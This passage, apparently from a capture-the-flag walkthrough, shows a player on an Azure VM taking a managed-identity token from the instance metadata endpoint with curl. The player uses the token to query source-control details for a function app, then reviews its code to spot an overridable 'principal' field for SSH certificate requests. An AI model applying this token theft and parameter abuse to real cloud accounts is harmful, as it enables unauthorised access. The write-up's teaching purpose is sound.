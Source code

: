 Now that we are on an Azure VM, we can use the [Azure REST API](https://learn.microsoft.com/en-us/entra/identity/managed-identities-azure-resources/how-to-use-vm-token) to generate a vm token to interact with the REST API.

```
accesstok=$(curl -G -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" | jq '.access_token' | sed -r 's/\"//g')
```

And now that we have a vm accesstoken, we can proceed to List [Subscriptions](https://learn.microsoft.com/en-us/rest/api/subscription/subscriptions/list?view=rest-subscription-2021-10-01&tabs=HTTP), [Resource Groups](https://learn.microsoft.com/en-us/rest/api/resources/resource-groups/list?view=rest-resources-2021-04-01), and knowing that the site is **northpole-ssh-certs-fa**, we can then check out [Source Control](https://learn.microsoft.com/en-us/rest/api/appservice/web-apps/get-source-control?view=rest-appservice-2022-03-01)


```bash hl_lines="12"
curl -X GET -H "Authorization: Bearer $accesstok" https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Web/sites/northpole-ssh-certs-fa/sourcecontrols/web?api-version=2022-03-01
{
  "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Web/sites/northpole-ssh-certs-fa/sourcecontrols/web",
  "name": "northpole-ssh-certs-fa",
  "type": "Microsoft.Web/sites/sourcecontrols",
  "location": "East US",
  "tags": {
    "project": "northpole-ssh-certs",
    "create-cert-func-url-path": "/api/create-cert?code=candy-cane-twirl"
  },
  "properties": {
    "repoUrl": "https://github.com/SantaWorkshopGeeseIslandsDevOps/northpole-ssh-certs-fa",
    "branch": "main",

```

Checking out the code repository, we see that they are using Python for the Azure Function App and looking closer at [function_app.py](https://github.com/SantaWorkshopGeeseIslandsDevOps/northpole-ssh-certs-fa/blob/main/function_app.py) 

```python linenums="1" hl_lines="3 5"
def parse_input(data) -> Tuple[PublicKey, str]:
    """Parse and validate input parameters."""
    ssh_pub_key = data.get("ssh_pub_key")
 #...
    principal = data.get("principal", DEFAULT_PRINCIPAL)
 #...
```
It looks like they are checking and parsing **principal** in the POST JSON, and using **DEFAULT_PRINCIPAL** of **elf**. What if we are able to pass our own principal in what we send?

If we watch the network traffic using the developer tools, we see a POST action to **https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl**

<figure markdown>